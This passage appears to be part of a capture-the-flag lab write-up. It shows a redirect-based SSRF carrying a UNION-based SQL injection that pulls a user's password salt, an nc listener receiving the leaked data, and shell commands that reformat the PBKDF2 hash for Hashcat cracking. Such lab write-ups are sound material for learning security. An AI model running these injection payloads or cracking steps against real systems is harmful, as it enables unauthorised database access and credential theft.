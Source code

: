 
Here we got a password that doesn’t really look like plain text password but more like hashed password. Let’s go and get the salt of that password if possible. 

```bash
#The injection
➜  sudo python3 redirect.py --url "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/salt/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--" --port 80 --ip 0.0.0.0

#The result
nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.11.176 43658
POST / HTTP/1.1
Host: 10.10.16.6:4444
Accept: */*
Content-type: application/json
Content-Length: 738

{"webhookUrl":"http:\/\/10.10.16.6:4444","monitoredUrl":"http:\/\/10.10.16.6","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"sO3XIbeW14\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/1\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Server":"BaseHTTP\/0.6 Python\/3.10.6","Date":"Sat, 07 Jan 2023 07:10:37 GMT","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/1,1,(select\/**\/salt\/**\/from\/**\/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"174"}}
```
{: .nolineno }

so understanding the output we can see that the only username valid is susanne and we got a hashed passowrd and the salt of that password. 

Here is how to put those parameters into a hashed password. since the format for a PBKDF2 a shown by google when asked, we need to format those information from the databse in a way that we can get a hashed password looking like this <mark style="color:green;">sha256:10000:base64_salt:base64_hashed_password </mark>

```bash
echo 'sha256:10000':$(echo 'sO3XIbeW14' | base64 | cut -c1-14)':'$(echo '66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37' | xxd -r -p | base64) > hash.txt

#output of the hashed file
➜  cat hash.txt 
sha256:10000:c08zWEliZVcxNA:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```
{: .nolineno }

Now let’s crack it using Hashcat

```bash
10900  PBKDF2-HMAC-SHA256  sha256:10000:MTc3MTA0MTQwMjQxNzY=:PYjCU215Mi57AYPKva9j7mvF4Rc5bCnt
```
{: .nolineno }
